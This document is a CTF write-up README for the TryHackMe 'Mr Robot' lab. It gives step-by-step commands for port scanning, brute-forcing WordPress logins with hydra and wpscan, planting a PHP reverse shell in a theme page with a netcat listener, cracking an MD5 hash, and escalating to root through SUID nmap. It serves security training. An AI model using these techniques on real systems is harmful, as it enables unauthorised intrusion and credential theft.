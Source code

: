 # ✅ TryHackMe CTF Walkthrough: Mr Robot

This repository contains a detailed walkthrough of how I solved the **Mr Robot CTF** on TryHackMe.  
The challenge simulates a real-world penetration testing scenario with an emphasis on web application exploitation and privilege escalation.

---

## 🎯 Room Overview

The **Mr Robot CTF** is designed to teach practical offensive security skills, focusing on:

- VPN connectivity to the TryHackMe network.  
- Service enumeration and web directory busting.  
- WordPress-specific vulnerabilities.  
- Brute-forcing WordPress login credentials.  
- Using reverse shells to gain system access.  
- Hash cracking and privilege escalation using SUID binaries.  
- Root flag retrieval and post-exploitation techniques.

---

## 📚 Step-by-Step Walkthrough

1. Connect With the TryHackMe server using Command:  
   ```bash
   sudo openvpn Downloads/Ynos.ovpn
   ```

2. Confirm you can connect to the machine using the command:  
   ```bash
   ping <IP of the machine>
   ```

3. Start by scanning for open ports using Nmap:  
   ```bash
   nmap -sV -O -T5 -p- <IP of the machine> -oN nmap.results
   ```

4. Open the website of this machine and browse:  
   ```bash
   http://<IP>/robots.txt
   ```  
   Some files are revealed.

5. Start directory busting on this website.

6. Use the key `fsocity.dic` by right-clicking and selecting "Save Page As".

7. Shorten this wordlist by removing duplicate elements using the command:  
   ```bash
   cat fsocity.dic | sort | uniq > main.dic
   ```

8. From dirbuster, we found that this uses **WordPress**. Access:  
   ```bash
   http://<IP>/wp-login
   ```

9. Attempt to find login ID and password for this website using wpscan:  
   ```bash
   wpscan --url http://10.10.49.119 -eu
   ```

10. Use **Burp Suite** to analyze the request flow and prepare for brute-forcing.

11. Brute-force the username using hydra:  
    ```bash
    hydra -L main.dic -p test 10.10.49.119 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
    ```

12. Three recommended usernames found: `elliot`, `Elliot`, `ELLIOT`.

13. Tried Hydra again but no valid password found.

14. Used wpscan instead:  
    ```bash
    wpscan --url http://10.10.49.119 -U Elliot -P main.dic --password-attack wp-login -t 100 -o wpscan.results
    ```

15. Edited the 404 page of the website and added a **PHP reverse shell code** from pentestmonkey. Provided our IP for reverse connection.

16. Start listening on port 4444:  
    ```bash
    nc -nlvp 4444
    ```

17. Access the 404 page to trigger reverse shell.

18. Gain shell access.

19. Navigate to `/home/robot/` and find `password.raw-md5` containing a hashed password.

20. Crack the hash using [CrackStation](https://crackstation.net/).

21. Gain access to robot user:  
    ```bash
    su robot
    ```  
    Password:  
    ```
    abcdefghijklmnopqrstuvwxyz
    ```

22. Understand SUID-bit files in Linux are files executable with elevated (root) privileges.

23. Find SUID files:  
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```

24. Discovered nmap can be used as root.

25. Launch nmap in interactive mode:  
    ```bash
    nmap --interactive
    ```

26. Type:  
    ```bash
    sh
    ```  
    to gain a root shell.

27. Locate the last key:  
    ```bash
    /root/key-3-of-3.txt
    ```

28. CTF complete!

---

## 🎯 Skills Gained

- VPN connection for remote labs.  
- Nmap and directory busting techniques.  
- WordPress vulnerability assessment.  
- Reverse shell deployment.  
- MD5 hash extraction and cracking.  
- Privilege escalation via SUID nmap binary.

---

## ⚡ Final Outcome

- Found WordPress login.  
- Extracted usernames, cracked weak credentials.  
- Reverse shell access achieved.  
- User and root privilege escalation successfully completed.

---

## 🔗 Room Link

[Mr Robot – TryHackMe](https://tryhackme.com/room/mrrobot)

---


## 👤 Author

**Harbeer-Singh**
